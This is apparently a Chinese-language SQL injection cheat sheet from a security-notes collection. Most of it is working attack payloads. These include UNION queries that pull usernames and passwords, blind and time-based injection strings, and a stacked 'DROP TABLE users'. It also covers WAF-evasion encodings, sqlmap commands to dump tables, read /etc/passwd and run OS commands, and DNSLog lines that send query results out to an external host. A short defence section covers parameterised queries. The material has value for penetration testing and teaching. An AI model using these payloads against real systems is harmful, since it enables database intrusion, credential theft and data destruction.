


# 🗡️ SQL注入全技巧

> **SQL注入**是一种通过构造恶意 SQL 语句，绕过应用程序验证机制，直接操控数据库的攻击手段。其核心在于攻击者利用应用程序对用户输入的信任，将恶意代码嵌入 SQL 查询中。

---

## 📖 一、SQL注入基础

### 1.1 什么是 SQL 注入

**攻击示例：** 攻击者输入 `admin' --` 作为用户名，密码任意值，最终执行的 SQL 变为：

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = '任意值'
```

> `--` 是 SQL 注释符，使密码验证逻辑失效，攻击者直接以管理员身份登录。

### 1.2 SQL 注入的危害

| 危害类型 | 说明 |
|:---|:---|
| 🔓 **数据泄露** | 窃取用户信息、交易记录等敏感数据 |
| ✏️ **数据篡改** | 修改订单状态、账户余额等关键业务数据 |
| ⬆️ **权限提升** | 获取管理员权限，控制整个系统 |
| 💥 **拒绝服务** | 通过恶意查询耗尽数据库资源 |
| 🕳️ **后门植入** | 写入 WebShell 获取服务器控制权 |

> 📊 根据 OWASP 统计，SQL注入连续多年位列 **Web应用安全漏洞 TOP10** 前三。

---

## 🏷️ 二、SQL注入分类

### 2.1 基于错误的注入（Error-Based）

通过构造特殊输入触发数据库错误，从错误信息中推断数据库结构。

- **检测方法**：输入单引号 `'` 观察报错内容，逐步获取表名、字段名

**MySQL 报错注入示例（使用 `extractvalue` 函数）：**

```sql
' AND extractvalue(1,concat(0x7e,(SELECT database())))--
```

> ✅ 只要返回 XPath 语法错误等，即存在注入。

### 2.2 联合查询注入（UNION-Based）

通过 `UNION` 合并恶意查询结果到合法结果中，要求前后查询列数相同。

**基本步骤：**

1. 使用 `ORDER BY` 猜测列数
2. 使用 `UNION SELECT` 获取数据

**示例（获取当前数据库所有表名）：**

```sql
' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()--
```

### 2.3 布尔盲注（Boolean-Based Blind）

基于页面响应差异（如存在/不存在用户时的不同提示）推断数据。适用于 **服务器没有错误回显** 的场景。

**原理：**

```sql
admin' AND 1=1 --   ✅ 返回正常页面
admin' AND 1=2 --   ❌ 返回错误页面
```

**逐字符爆破：**

```sql
-- 测试密码首字母
SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a'
```

**加速技巧：** 通过二分法加速数据提取

```sql
SUBSTRING(@@version,1,1)>'5'
```

### 2.4 时间盲注（Time-Based Blind）

利用数据库延迟函数（如 MySQL 的 `SLEEP()`）判断条件是否成立。适用于 **页面完全没有变化、连布尔差异都没有** 的场景。

**示例：**

```sql
admin' AND IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0) --
```

> ⏱️ 若页面 5 秒后响应，说明密码首字母为 `a`。

**基础判断：**

```sql
' AND SLEEP(5)--
```

> ✅ 如果接口明显延迟 5 秒，**100% 存在注入**。

### 2.5 堆叠查询注入（Stacked Queries）

利用分号 `;` 执行多条 SQL 语句（需数据库支持多语句执行）。

```sql
1'; DROP TABLE users --
```

### 2.6 二次注入（Second-Order SQLi）

利用应用对输入数据的 **存储再输出** 特性。例如注册时输入 `admin'--`，后续修改密码时触发注入。

> ⚠️ 这类漏洞非常隐蔽，**普通扫描扫不出来**。

### 2.7 宽字节注入

利用 MySQL 的 GBK 编码特性，认为两个字符是一个汉字。

**原理：**

```
%df'  →  被解析成 「運'」，单引号逃逸成功
```

> 当 PHP 编码为 GBK 时，`addslashes()` 添加的是 ASCII 编码，MySQL 默认字符集可能导致此问题。

### 2.8 报错注入常用函数

| 函数 | 说明 |
|:---|:---|
| `floor()` | 计数报错 |
| `extractvalue()` | XPath 报错 |
| `updatexml()` | XML 解析报错 |

---

## 🔍 三、信息收集与数据提取

### 3.1 MySQL `information_schema`

MySQL 5.0 之后默认添加 `information_schema` 数据库，**三大核心表**：

| 表名 | 作用 |
|:---|:---|
| `information_schema.schemata` | 存储所有数据库名 |
| `information_schema.tables` | 存储所有数据表名 |
| `information_schema.columns` | 存储所有列名 |

**常用查询：**

```sql
-- 获取所有数据库名
SELECT schema_name FROM information_schema.schemata LIMIT 0,1

-- 获取指定数据库中的所有表名
SELECT table_name FROM information_schema.tables WHERE table_schema='security' LIMIT 0,1

-- 获取指定表的所有列名
SELECT column_name FROM information_schema.columns WHERE table_schema='security' AND table_name='users' LIMIT 0,1

-- 获取指定列的数据
SELECT password FROM users LIMIT 0,1
```

### 3.2 MySQL 常用函数

| 函数 | 作用 |
|:---|:---|
| `version()` | 查询数据库版本 |
| `user()` | 查询数据库使用者 |
| `database()` | 查询当前数据库名 |
| `system_user()` | 系统用户名 |
| `load_file()` | 读取本地文件 |
| `@@datadir` | 数据库路径 |
| `@@basedir` | MySQL 安装路径 |
| `@@version_compile_os` | 操作系统 |

### 3.3 不同数据库的差异

| 数据库 | 特点 |
|:---|:---|
| 🐬 **MySQL** | 最常见的开源数据库，自带 `information_schema` 系统库 |
| 🪟 **MSSQL（SQL Server）** | 多见于 Windows 平台企业系统，权限高时可调用 `xp_cmdshell` 直接执行系统命令 |
| 🏛️ **Oracle** | 大型企业级数据库，权限控制严格，注入场景相对复杂 |

> 不同数据库对同一个字符可能有不同的含义和处理方式，同样的注入 payload 在不同数据库中会有不一样的表现形式。

---

## 🚧 四、绕过 WAF 技巧

### 4.1 WAF 检测原理

现代 WAF 通过 **三重机制** 防御 SQL 注入：

| 检测方式 | 说明 |
|:---|:---|
| ① 关键字匹配 | 检测 `SELECT`、`UNION` 等 SQL 关键字 |
| ② 特殊字符过滤 | 拦截 `'`、`"`、`--` 等符号 |
| ③ 语法结构分析 | 识别 `1=1`、`2=2` 等恒真条件 |

### 4.2 注释绕过

**MySQL/Oracle/MSSQL 注释符：**

| 注释符 | 说明 |
|:---|:---|
| `/* */` | 多行注释 |
| `#` | 单行注释 |
| `--` / `-- -` / `--+` | 单行注释 |
| `/*!*/` | **内联注释** |
| `/*!50000xx*/` | 条件注释（版本号判断） |
| `%09 %0A %0B %0C %0D %20` | 空白字符 |

**内联注释绕过：** `/*!*/` 中的语句可当作 SQL 语句执行

```sql
/*!50000SELECT*/ * FROM users
```

> 当前 MySQL 版本号高于 50000 时，`/*!*/` 中的语句正常执行。

### 4.3 等价替换

| 原始 | 替换方案 |
|:---|:---|
| `AND` | `&&` |
| `OR` | `\|\|` |
| `=` | `LIKE` |
| `1=1` | `GREATEST(1,1)=1` |
| `ascii(c)` / `ord(c)` | `conv(hex(c),16,10)` |
| `substr(s,1,1)` | `mid(s,1,1)` 或 `substr(s from 1 for 1)` |

### 4.4 大小写绕过

SQL 语句不区分大小写，可通过大小写变形绕过过滤器：

```sql
UNION SELECT  →  UnIoN SeLeCt
```

### 4.5 编码绕过

**① URL 编码**

```
admin' --  →  admin%27%20%2D%2D
```

**② 十六进制编码**（绕过引号检测）

```sql
-- 常规注入
SELECT * FROM users WHERE username = 'admin' --

-- 十六进制变形
SELECT * FROM users WHERE username = 0x61646D696E --
```

**③ Unicode 编码**

```sql
-- 原始
SELECT * FROM users WHERE id=1 OR 1=1

-- 编码后
SELECT * FROM users WHERE id=1 \u004f\u0052 1=1
```

### 4.6 特殊字符插入

SQL 查询语句的关键字前后可插入特殊字符进行 Fuzz：

> `+ - @ ! ' " ~ {` 以及结合注释符 `--` `/*` 和空白字符等

### 4.7 参数污染

通过重复参数名混淆 WAF 解析：

```http
GET /search?q=test&q[]=1' OR '1'='1
```

> 部分 WAF 仅处理第一个参数，而应用服务器可能合并数组参数。

### 4.8 分块传输

利用 HTTP 分块传输编码绕过长度限制：

```http
POST /api HTTP/1.1
Transfer-Encoding: chunked

4
1' OR
10
'1'='1
```

> WAF 可能未完整重组分块数据，导致攻击 payload 被截断处理。

---

## 🛠️ 五、SQLMap 使用技巧

### 5.1 基础使用

```bash
# 检测 URL 是否存在 SQL 注入
sqlmap -u "http://example.com/page.php?id=1"

# POST 数据检测
sqlmap -u "http://example.com/login.php" --data="user=admin&pass=test"
```

### 5.2 数据库枚举

```bash
# 获取所有数据库名
sqlmap -u "http://example.com/page.php?id=1" --dbs

# 获取指定数据库的表名
sqlmap -u "http://example.com/page.php?id=1" -D database_name --tables

# 获取指定表的字段名
sqlmap -u "http://example.com/page.php?id=1" -D database_name -T users --columns

# 导出指定字段数据
sqlmap -u "http://example.com/page.php?id=1" -D database_name -T users -C username,password --dump
```

### 5.3 高级参数

```bash
sqlmap -u "http://example.com/search?q=test" --risk=3 --level=5
```

| 参数 | 说明 |
|:---|:---|
| `--risk=3` | 控制危险操作级别（3 为最高，尝试堆叠查询等高危 payload） |
| `--level=5` | 决定检测深度（5 检测所有注入点，包括 HTTP 头、Cookie 等） |

### 5.4 Tamper 脚本绕过 WAF

**基础用法：**

```bash
sqlmap -u "http://target.com/page?id=1" --tamper=space2comment
```

**多脚本组合：**

```bash
sqlmap -u "target" --tamper="randomcase,space2comment,equaltolike"
```

**常用 Tamper 脚本：**

| 脚本 | 功能 |
|:---|:---|
| `space2comment` | 空格替换为 `/**/` 注释 |
| `randomcase` | 随机大小写转换 |
| `equaltolike` | `=` 替换为 `LIKE` |
| `charunicodeencode` | ASCII 字符转 Unicode 编码 |
| `charencode` | URL 编码每个字符 |
| `apostrophenullencode` | 单引号替换为 `%00` |
| `multiplespaces` | 多个空格替换为单个空格 |

### 5.5 高级利用

```bash
# 读取服务器文件
sqlmap -u "http://example.com/page.php?id=1" --file-read="/etc/passwd"

# 写入文件
sqlmap -u "http://example.com/page.php?id=1" --file-write="/local/file" --file-dest="/remote/path"

# 执行系统命令
sqlmap -u "http://example.com/page.php?id=1" --os-cmd="id"

# 执行自定义 SQL
sqlmap -u "http://example.com/page.php?id=1" --sql-query="SELECT * FROM users WHERE id=1"
```

---

## 🎯 六、高阶注入技巧

### 6.1 DNSLog 盲注（无回显场景）

**MySQL（高权限下可通过 DNS 外带数据）：**

```sql
' AND LOAD_FILE(CONCAT('\\\\',(SELECT database()),'.xxx.dnslog.cn\\test'))--
```

**SQL Server：**

```sql
'; EXEC master..xp_dirtree '\\xxx.dnslog.cn\test';--
```

> ✅ 适用于完全盲注、无法回显的场景。

### 6.2 文件读写（MySQL 权限足够时）

```sql
' UNION SELECT LOAD_FILE('/etc/passwd')--
```

### 6.3 万能密码

利用注释符绕过登录验证：

| 用户名 | 密码 |
|:---|:---|
| `admin' --` | 任意值 |

### 6.4 User-Agent 注入与 Cookie 注入

> 不仅 GET/POST 参数，**HTTP 头**（User-Agent、Referer、Cookie 等）同样可能存在注入点。

---

## 🛡️ 七、防御措施

### 7.1 参数化查询（Prepared Statements）⭐

> 最有效的防御方法，通过预编译 SQL 模板，将用户输入作为参数传递，避免拼接 SQL 语句。

**Java JDBC 示例：**

```java
String sql = "SELECT * FROM users WHERE username = ? AND password = ?";
PreparedStatement stmt = connection.prepareStatement(sql);
stmt.setString(1, username);
stmt.setString(2, password);
ResultSet rs = stmt.executeQuery();
```

### 7.2 输入验证与过滤

| 措施 | 说明 |
|:---|:---|
| ✅ **白名单验证** | 只允许特定字符集（如字母、数字、下划线） |
| 📏 **长度限制** | 设置最大输入长度 |
| 🔄 **类型转换** | 将数字输入显式转换为数值类型 |
| ⚠️ **动态表名/列名** | 对于无法使用预处理的场景，使用白名单验证，**绝不要直接拼接用户输入** |

### 7.3 存储过程

存储过程在数据库中预编译，可以减少 SQL 注入的风险。但需确保存储过程的 **参数化**，避免直接拼接用户输入。

### 7.4 其他防御措施

1. 🔇 **关闭数据库详细错误显示**，使用统一错误处理机制
2. 🔑 **最小权限原则**：数据库账户只授予必要权限
3. 🧱 **WAF 部署**：作为辅助防护层
4. 🔬 **定期安全测试**：使用 SQLMap 等工具进行漏洞检测

---

## 📋 八、检测流程速查

### 8.1 手动测试步骤



**详细步骤：**

| 步骤 | 操作 | 示例 |
|:---|:---|:---|
| ① 信息收集 | 使用 `ORDER BY` 猜测列数 | `' ORDER BY 1--` |
| ② 注入点确认 | 输入 `'` 观察报错 | `'` |
| ③ 联合查询探测 | `UNION SELECT` | `' UNION SELECT 1,2,3--` |
| ④ 获取数据库信息 | 查版本、库名、用户 | `database()`、`version()`、`user()` |
| ⑤ 枚举表名 | 查所有表 | `' UNION SELECT 1,table_name,3 FROM information_schema.tables--` |
| ⑥ 枚举列名 | 查所有列 | `' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'--` |
| ⑦ 提取数据 | 导出数据 | `' UNION SELECT 1,username,password FROM users--` |

### 8.2 接口测试组合流程



### 8.3 关键测试点

- [x] 检查 **所有用户可控参数**（GET / POST / Cookie / Header）
- [x] 测试 **单引号、双引号、分号** 等特殊字符
- [x] 验证普通用户能否访问 **管理员表**
- [x] 检查是否返回 **详细数据库错误信息**

---

## 🔗 实战案例

> 📂 补天SRC浙江旅游职业学院项目sql注入漏洞
# 关联文件

## 🔗 关联文件

| 文件 | 关联说明 |
|:---|:---|
| [XSS全技巧](12-xss.md) | 同属 A03 Injection 大类，客户端注入 |
| [命令注入全技巧](11-command-injection.md) | 系统命令注入（常配合 SQL 注入获取 Shell）|
| [NoSQL注入全技巧](10-nosql-injection.md) | NoSQL 数据库注入（MongoDB等）|
| [模板注入SSTI全技巧](17-ssti.md) | 服务器端模板注入 |
| [XXE注入全技巧](16-xxe.md) | XML 外部实体注入 |
| [反序列化注入全技巧](18-deserialization.md) | 反序列化 RCE |
| [身份认证失效（A07）全技巧](26-a07-auth-failures.md) | SQL 注入常用于绕过认证 |
| [安全配置错误（A05）全技巧](24-a05-security-misconfiguration.md) | 数据库配置错误导致注入 |
| [失效的访问控制（A01）全技巧](21-a01-broken-access-control.md) | 注入后越权访问数据 |